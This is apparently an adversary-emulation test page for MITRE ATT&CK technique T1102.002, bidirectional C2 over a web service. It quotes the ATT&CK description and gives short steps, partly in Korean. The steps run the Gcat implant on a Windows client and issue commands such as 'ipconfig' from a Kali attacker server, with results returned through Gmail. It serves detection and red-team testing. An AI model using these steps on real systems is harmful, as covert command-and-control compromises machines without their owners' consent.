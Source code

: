 # T1102.002A - Web Service: Bidirectional Communication
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1102/002/)
<blockquote>Adversaries may use an existing, legitimate external Web service as a means for sending commands to and receiving output from a compromised system over the Web service channel. Compromised systems may leverage popular websites and social media to host command and control (C2) instructions. Those infected systems can then send the output from those commands back over that Web service channel. The return traffic may occur in a variety of ways, depending on the Web service being utilized. For example, the return traffic may take the form of the compromised system posting a comment on a forum, issuing a pull request to development project, updating a document hosted on a Web service, or by sending a Tweet.

Popular websites and social media acting as a mechanism for C2 may give a significant amount of cover due to the likelihood that hosts within a network are already communicating with them prior to a compromise. Using common services, such as those offered by Google or Twitter, makes it easier for adversaries to hide in expected noise. Web service providers commonly use SSL/TLS encryption, giving adversaries an added level of protection. </blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 using gamil - Gcat](#atomic-test-1--- C2--using-gamil-Gcat)

<br/>

## Atomic Test #1 - C2 using gamil - Gcat
C2 using gamil - Gcat

**Supported Platforms:** Windows 

#### Run it with these steps! 
#### 아래 순서대로 진행
클라이언트 
1. Open cmd.exe 
2. cd <implant.py 위치>
3. implant.py

공격자 서버

4. cd /home/kali/Desktop/gcat/gcat-master
5. python gcat.py -list     
6. python gcat.py -id <id> -cmd 'ipconfig'
7. python gcat.py -id <id> -jobid <jobid> 
8. 이메일에서 결과 확인 (gcat.py, implant.py에 id/pw 존재)

<br/>

